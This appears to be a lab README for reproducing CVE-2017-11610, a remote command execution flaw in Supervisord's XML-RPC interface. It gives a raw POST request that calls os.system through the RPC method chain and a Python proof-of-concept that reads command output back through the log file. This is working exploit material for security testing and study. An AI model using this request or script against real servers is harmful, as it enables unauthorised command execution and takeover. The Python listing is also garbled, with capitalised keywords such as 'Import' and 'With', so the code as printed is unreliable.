

# Supervisord Remote Command Execution Vulnerability (CVE-2017-11610)

Reference link (you can see the first article in detail):

 - https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
 - https://blogs.securiteam.com/index.php/archives/3348
 - https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## Operating environment

```
Docker-compose build
Docker-compose up -d
```

After the environment is launched, visit the http://your-ip:9001` to view the Supervisord page.

## Vulnerability Testing

Execute any command directly:

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```


## About direct echoing POC

@Ricter An idea put forward on Weibo is very effective. It is to write the result of the command execution into the log file, and then call the readLog method that comes with Supervisord to read the log file and read the result.

Write a simple POC: [poc.py](poc.py) and post it directly:

```python
#!/usr/bin/env python3
Import xmlrpc.client
Import sys


Target = sys.argv[1]
Command = sys.argv[2]
With xmlrpc.client.ServerProxy(target) as proxy:
    Old = getattr(proxy, 'supervisor.readLog')(0,0)

    Logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    Getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    Result = getattr(proxy, 'supervisor.readLog')(0,0)

    Print(result[len(old):])
```

Execute with Python3 and get the result: `./poc.py "http://your-ip:9001/RPC2" "command"`:

